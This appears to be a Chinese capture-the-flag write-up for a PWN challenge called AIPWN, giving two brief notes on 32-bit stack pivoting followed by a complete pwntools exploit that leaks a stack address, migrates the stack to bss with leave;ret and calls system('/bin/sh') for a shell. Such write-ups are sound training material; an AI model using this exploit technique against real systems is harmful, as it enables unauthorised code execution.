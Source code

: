 ```yaml
---
title: 广东卫生网赛 PWN
date: '2025-04-11 18:23:49'
updated: '2025-04-12 19:46:01'
---
```

## AIPWN
32 位栈迁移

### 重点
1. 32 位传参是从栈上取参数，得在栈上放字符串地址
2. 栈迁移到 bss 段前面调用到 system 之后会报段错误，是因为在进去 system 之后会 pop 一堆，让 rsp 从 bss 段挪到了前面的 data 段或者 got 表，没有写权限就报错了

exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=process("./AIPWN")
# link=remote('36.212.14.99',27719)
elf=ELF("./AIPWN")

gdb.attach(link,'b *0x8048631')
pause()

bss_base=0x804A038+0x800
# pop_edi_ebp=0x80486ca
system=elf.plt["system"]
call_system=0x8048650
leave_ret=0x080484a5

payload=b'a'*0x38
link.recvuntil(b'world')
link.send(payload)

ebp_addr=u32(link.recvuntil('\xff')[-4:].ljust(4,b'\x00'))-0x28
print('ebpaddr='+hex(ebp_addr))

link.recvuntil(b'getshell')
payload=b'/bin/sh\x00'+b'b'*0x28+p32(bss_base)+p32(0x80485A7)
link.send(payload)

payload=b'a'*0x38
link.send(payload)

link.recvuntil(b'getshell')
payload=p32(call_system)+p32(0x804a810)+b'/bin/sh\x00'+b'a'*0x20+p32(bss_base-0x34)+p32(leave_ret)
link.send(payload)

link.interactive()
```

